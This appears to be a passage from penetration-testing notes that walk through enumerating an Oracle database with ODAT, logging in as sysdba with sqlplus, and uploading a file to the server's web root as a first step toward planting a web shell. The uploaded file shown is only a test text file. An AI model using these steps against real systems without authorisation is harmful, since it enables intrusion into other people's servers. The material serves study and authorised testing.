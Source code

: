 
### More enumeration with ODAT

We can use the `odat.py`  from [ODAT](odat.md) tool to retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations,...

```shell-session
/odat.py all -s $ip
```

Addittionaly, if you have sysdba admin rights, you might  upload a web shell to the target ([more in odat](odat.md))  

## Connect to Oracle database: sqlplus

If we manage to get some credentials we can connect to the Oracle TNS service with [sqlplus](sqlplus.md).

```shell-session
sqlplus <username>/<password>@$ip/XE;
```

In case of this error message ( sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory), there might be an issue with libraries. Possible solution:

```shell-session
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

The System Database Admin  in an Oracle RDBMS is **sysdba**. If an user has more privileges that they should have we can try to exploit it as sysdba.

```shell-session
sqlplus <user>/<password>@$ip/XE as sysdba
```

## Upload a web shell

If we have sysdba admin rights, we might  upload a web shell to the target. This requires the server to run a web server, and we need to know the exact location of the root directory for the webserver.

```bash
# 1. Create a non suspicious web shell 
echo "Oracle File Upload Test" > testing.txt

# 2. Upload  the shell to linux (/var/www/html) or windows (C:\\inetpub\\wwwroot):
./odat.py utlfile -s $ip -d XE -U <user> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

## 3. Test if the file upload approach worked with curl, or visit via browser.
curl -X GET http://$ip/testing.txt
```

